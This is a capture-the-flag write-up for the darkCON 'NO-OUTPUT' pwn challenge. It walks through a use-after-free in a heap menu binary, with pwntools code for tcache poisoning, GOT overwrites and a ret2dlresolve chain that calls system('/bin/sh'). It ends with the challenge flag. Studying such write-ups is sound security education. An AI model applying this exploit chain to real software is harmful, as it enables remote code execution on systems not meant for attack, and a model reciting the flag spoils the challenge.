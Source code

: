 # Pwn/NO-OUTPUT [495]

```
Ok !!! This challenge doesn't give any output. Now try to get the shell.
The libc has tcache enabled (not libc-2.32) and you don't require libc for this challenge at all. This challenge can be done without having libc. You don't need to guess or bruteforce libc.
connection: nc 13.233.166.242 49153
```

**Files**: [NO-Output.zip](https://darkc0n.blob.core.windows.net/challenges/NO-Output.zip) (`NO_output`)

```c
$ checksec NO_Output
[*] '/NO_Output'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Figuring out what to do

The code for this challenge is structurally similar to that of [Warmup](Warmup.md), so we'll be inspecting the differences more closely.

`init()` does something weird:

```c
unsigned __int64 init() {
  char c; // [rsp+Bh] [rbp-25h]
  int i; // [rsp+Ch] [rbp-24h]
  char s[24]; // [rsp+10h] [rbp-20h]
  for ( i = 0; i <= 71; ++i )
  {
    c = fgetc(stdin);
    if ( c == '\n' )
      break;
    s[i] = c;
  }
  return __readfsqword(0x28u) ^ v4;
}

```

This is clearly an overflow, but overflowing here will cause a stack protector failure. We'll probably need to jump back to here later to perform ROP for one reason or another.

`main()` now has 3 options: `add()`, `edit()`, and `delete()`.

```c
unsigned getIndex() {
  int ind; // [rsp+Ch] [rbp-4h] BYREF
  scanf("%d", &ind); getchar();
  if ( ind < 0 || ind > 15 )
    exit(0);
  return ind;
}
unsigned getValidSize() {
  int sz; // [rsp+Ch] [rbp-4h] BYREF
  scanf("%d", &sz); getchar();
  if ( sz < 0 || sz > 4096 )
    exit(0);
  return sz;
}
void add() {
  int ind = getIndex();
  int size = getValidSize();
  chunks_len[ind] = size;
  chunks[ind] = (char *)malloc(size);
  for (int i = 0; ; ++i) {
    if ( i >= chunks_len[ind] )
      break;
    char c = fgetc(stdin);
    if ( c == '\n' )
      break; // not nul-terminated!
    chunks[ind][i] = c;  
  }
}
```

The first option allows for an arbitrary allocation of up to 4096 bytes. The bytes inputted don't get nul-terminated, but that isn't very significant here because of the lack of any string manipulation functions.

```c
void edit() {
  int ind = getIndex();
  if ( !chunks[ind] )
    exit(0);
  for (int i = 0; ; ++i) {
    if ( i >= chunks_len[ind] )
      break;
    char c = fgetc(stdin);
    if ( c == '\n' )
      break;
    chunks[ind][i] = c;
  }
  return c;
}
```

`edit()` simply overwrites the first `chunks_len[ind]` bytes at `chunks[ind]`. This in-and-of-itself is not an issue, but combined with the bug here:

```c
void delete() {
  int ind = getIndex();
  if ( !chunks[ind] )
    exit(0);
  free(chunks[ind]); // !!! chunks[ind] is not cleared !!!
}
```

We can make use of the UAF to [allocate an arbitrary pointer](https://github.com/shellphish/how2heap/blob/master/glibc_2.31/tcache_poisoning.c) via the tcache free list.

```python
def tcache_poison(size: int, ptr: int):
    '''put an arbitrary ptr of a specific size at the head of the tcache free list'''
    assert size < 0x400 # must be within tcache size
    # We'll use the last indexes (14 & 15) for temporary storage
    add(14, size, b'first')
    add(15, size, b'second')
    delete(14)
    delete(15)
    edit(15, pack(ptr))
    add(15, size, b'second')
    # after here, the next call for malloc(`size`) will return `ptr`.
```

My immediate idea is to use this arbitrary write primitive to overwrite the GOT table, which would grant us arbitrary code execution... with the addresses we know.

As the title states, this challenge provides **no output**: PIE might be disabled, but there aren't any immediately useful functions available for leaking data. We'll need to obtain a shell without any information leaks.

I got stuck on this for a bit, up until I found an enlightening piece of metadata within IDA:

![image-20210220212611387](C:\Users\A\AppData\Roaming\Typora\typora-user-images\image-20210220212611387.png)

_Ah._

## ret2dlresolve

In essence, the `ret2dlresolve` technique is a leakless method for executing libc functions, given that the exploiter has the location of `.text`, along with a sufficiently long region for ROP. You can look up the finer details in writeups online, or you can [abuse pwntools](https://pwntools.readthedocs.io/en/dev/rop/ret2dlresolve.html) like I do.

In short, the solution here is to:

1. Use the UAF/Double-Free poisoning above to write `dlresolve.payload` to `dlresolve.data_addr`. Whatever those things are.

   ```python
   dlresolve = Ret2dlresolvePayload(context.binary, symbol="system", args=["/bin/sh"])
   tcache_poison(0x200, dlresolve.data_addr)
   add(0, 0x200, dlresolve.payload)
   ```

   This is the `rop.read(0, dlresolve.data_addr)` step in the pwntools example.

2. With the same arbitrary write primitive, edit a good function to jump back to `init()` for an overflow, and also [**edit `__stack_chk_fail()` to a `leave; ret;` gadget**](http://wapiflapi.github.io/2014/11/17/hacklu-oreo-with-ret2dl-resolve.html).

   ```python
   R = ROP(context.binary)
   leave_ret = R.find_gadget(['leave', 'ret']).address
   tcache_poison(0x18, context.binary.got['free'])
   add(0, 0x18, pack(context.binary.symbols['init']) + pack(leave_ret))
   ```

    Since `free()` is adjacent to `__stack_chk_fail()` in the GOT table, I used `free()` as that `init()` trampoline.

3. Use the ROP available at `init()` in conjunction with the [ret2dlresolve](https://pwntools.readthedocs.io/en/dev/rop/ret2dlresolve.html) module to call `system("/bin/sh")`.

   ```python
   R.raw(b'a'*0x28)
   R.ret2dlresolve(dlresolve)
   delete(0) # trigger free(), which triggers init()
   r.sendline(R.chain())
   r.interactive()
   ```

   

That's that.

## Flag

`darkCON{R3t_t0_dlr3s0lv3_c0mb1n1n9_w1th_tc4ch3_p01s0n1n9_4tt4ck}`